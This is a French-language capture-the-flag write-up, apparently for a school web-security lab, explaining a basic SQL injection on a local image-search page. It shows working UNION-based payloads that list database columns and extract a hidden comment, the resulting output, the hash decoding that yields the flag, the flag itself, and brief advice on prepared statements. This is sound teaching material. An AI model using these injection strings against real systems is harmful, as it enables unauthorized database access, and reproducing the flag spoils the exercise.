 # SQL injection basic

Depuis la page `search images` (`http://localhost:8080/index.php?page=searchimg`) on a acces a un formulaire qui permet d'afficher le `title` et le `url` d'une image a partir de son ID.

La page fait certainement une requete toute simple du type:

        SELECT title, url FROM images WHERE id = $id

Ou `$id` en PHP pourrait etre $_GET['id'], par exemple, et donc on peut exploiter une faille de type `Injection SQL`.

En essayant diffrents ID, on trouve pour l'ID 5 la sortie suivante:

        ID: 5
        Title: Hack me ?
        Url : borntosec.ddns.net/images.png

On essaye donc d'injecter une requete pour recuperer la liste des tables:

        1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS

Et on obtient la sortie suivante:

        [...]

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        Title: id
        Url : list_images

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        Title: url
        Url : list_images

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        Title: title
        Url : list_images

        ID: 1 OR 1 = 1 UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS
        Title: comment
        Url : list_images

        [...]

On en deduit qu'une table `list_images` existe avec les champs `id`, `url`, `title`, `comment`.

Les champs `title` et `comment` doivent probablement conternir le flag pour le membre d'ID 5.

On essaye d'injecter la requete suivante:

        1 OR 1 = 1 UNION SELECT title, comment FROM list_images WHERE id = 5

Et on obtient la sortie suivante, qui contient le flag et l'instruction pour le dechiffrer:

        ID: 1 OR 1 = 1 UNION SELECT title, comment FROM list_images WHERE id = 5
        Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
        Url : Hack me ?

On le dechiffre via le site `https://www.dcode.fr/md5-hash` et on obtient: `albatroz`

On le met en lettres minuscules et on applique dessus l'algo `Sh256` via le site `https://www.sha256.fr/` pour obtenir le flag:

        f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Eviter cette faille

Pour eviter ce genre de faille, il suffirait de ne pas injecter directement l'ID dans la requete, d'utiliser des requetes preparees ou d'utilisers des ORM (object-relational mapping).
